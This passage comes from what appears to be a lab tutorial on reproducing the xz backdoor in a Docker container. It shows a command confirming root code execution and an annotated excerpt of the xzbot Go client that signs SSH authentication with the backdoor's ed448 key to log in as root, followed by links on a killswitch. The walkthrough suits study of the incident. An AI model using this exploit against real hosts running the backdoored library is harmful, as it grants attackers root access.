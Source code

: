 and then prove it by opening another terminal and running:

```bash
docker exec xzbackdoor-vulnerable cat /tmp/whoami.txt
# should print 'current user: root'
```

This proves that we're getting remote code execution as root.

### Analysis of xzbot

But, why are we using xzbot? Is it doing anything magical to help us out here?

Nope! It's just establishing the SSH connection with the appropriate key!

> ```go
> 	// ...
> 	signingKey := ed448.NewKeyFromSeed(seed[:])     // creates a key from same seed as in vulnerable system
> 	xz := &xzSigner{                                // xzSigner takes a signing key and generates the appropriate public key
> 		signingKey:    signingKey,
> 		encryptionKey: signingKey[ed448.SeedSize:],
> 	}
> 	// this creates an SSH client as the root user
> 	config := &ssh.ClientConfig{
> 		User: "root",
> 		Auth: []ssh.AuthMethod{                     // Establishes the authentication method using the public
> 			ssh.PublicKeys(xz),                     //   key generated from the initial signing key and seed.
> 		},
> 		HostKeyCallback: xz.HostKeyCallback,        // takes the SSH public key and computes a hash
> 	}
> 	client, err := ssh.Dial("tcp", *addr, config)   // establishes an SSH connection
> 	// ...
> ```
>
> &mdash; [xzbot/main.go](https://github.com/amlweems/xzbot/blob/8ae5b706fb2c6040a91b233ea6ce39f9f09441d5/main.go#L193-L205) (comments are mine)

## Futher Activities:

- What's this about a killswitch?
  - [Killswitch Thread](https://social.hackerspace.pl/@q3k/112184695043115759) - [Killswitch Post](https://social.hackerspace.pl/@q3k/112184808331214658) (2024-03-30)
    - <https://gist.github.com/q3k/af3d93b6a1f399de28fe194add452d01>
  - <https://gist.github.com/sgammon/ec604c3fabd1a22dd3cdc381b736b03e>
- How to exploit without using xzbot?

## Further Reading

I consulted a bunch of resources when building this list.
